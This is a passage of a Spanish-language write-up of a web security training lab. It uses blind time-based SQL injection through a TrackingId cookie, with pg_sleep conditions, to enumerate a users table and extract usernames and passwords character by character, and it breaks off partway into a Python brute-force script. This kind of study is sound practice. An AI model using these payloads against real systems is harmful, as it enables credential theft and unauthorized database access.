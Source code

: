 `Obtenemos` el `nombre` de las `columnas` de la `tabla users`

```
# python sqli_time_based.py
[▄] Fuerza bruta: C5PhDxyLUgYK5wqP'||case when (substr((select string_agg(column_name,', ') from information_schema.columns where table_name='users'),25,1)='l') then pg
[▝] Output: username,+password,+email
```

`Desarrollamos` este `payload` para `obtener` la `longitud` del `contenido` de las columnas `username` y `password`

```
Cookie: TrackingId=cHGMMcxehmRwG3jt'||case+when+(length((select+string_agg(username||':'||password,', ')+from+public.users))>1)+then+pg_sleep(2)+else+pg_sleep(0)+end--+-+; session=ezlYBe5u09pOXF3zAZ4zeRaLp96CZ2pD
```

`Obtenemos` que la `longitud` es de `92`

```
Cookie: TrackingId=cHGMMcxehmRwG3jt'||case+when+(length((select+string_agg(username||':'||password,', ')+from+public.users))=92)+then+pg_sleep(1)+else+pg_sleep(0)+end--+-+; session=ezlYBe5u09pOXF3zAZ4zeRaLp96CZ2pD
```

`Desarrollamos` este `payload` para `bruteforcear` el `contenido`

```
Cookie: TrackingId=cHGMMcxehmRwG3jt'||case+when+(substr((select+string_agg(username||':'||password,', ')+from+public.users),1,1)='a')+then+pg_sleep(2)+else+pg_sleep(0)+end--+-+; session=ezlYBe5u09pOXF3zAZ4zeRaLp96CZ2pD
```

Con este `script` en `python` podemos `iterar` sobre el `payload anterior` y `obtener` el `contenido` de las columnas `username` y `password`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a8c0022048b993981c20d0000b3004b.web-security-academy.net/"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 94):
            for character in characters:
                cookies = {
```